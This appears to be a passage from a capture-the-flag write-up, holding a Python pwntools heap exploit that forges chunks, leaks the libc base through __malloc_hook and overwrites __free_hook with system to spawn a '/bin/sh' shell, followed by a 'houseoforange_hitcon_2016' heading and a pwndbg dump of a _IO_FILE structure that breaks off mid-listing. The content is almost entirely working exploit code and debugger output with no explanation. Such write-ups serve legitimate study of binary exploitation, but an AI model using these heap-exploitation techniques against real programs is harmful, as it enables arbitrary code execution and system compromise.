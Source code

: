 ```python
storage = 0x13370800
fake = storage-0x20

payload = flat(0,0,0,0x4f1,0,fake)
edit(7,payload)
payload = flat(0,0,0,0,0,0x4e1,0,fake+8,0,fake-0x18-5)
edit(8,payload)

try:
    add(0x48)
except:
    print('Try again?')

payload = flat(0,0,0,0,0,0x13377331,storage)
edit(2,payload)

payload = flat(0,0,0,0x13377331,storage,0x1000)
p1 = payload + flat(storage-0x20+3,8)
edit(0,p1)

heap = uu64(show(1))
p2 = payload + flat(heap+0x10,8)
edit(0,p2)

base = uu64(show(1))-88-libc.sym['__malloc_hook']-0x10
system = base + libc.sym['system']
free_hook = base + libc.sym['__free_hook']

p3 = payload + flat(free_hook,0x100,storage+0x50,0x100,'/bin/sh\x00')
edit(0,p3)
edit(1,p64(system))

sl('3')
sla('Index:','2')
```

### houseoforange_hitcon_2016

```
pwndbg> p *(struct _IO_FILE*)0x555b7d04b4f0
$2 = {
  _flags = 1852400175,
  _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
  _IO_read_end = 0x0,
  _IO_read_base = 0x7f29a0f30510 "",
  _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>,
  _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x0,
  _fileno = 0,
  _flags2 = 0,
  _old_offset = 0,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x0,
  _offset = 0,
```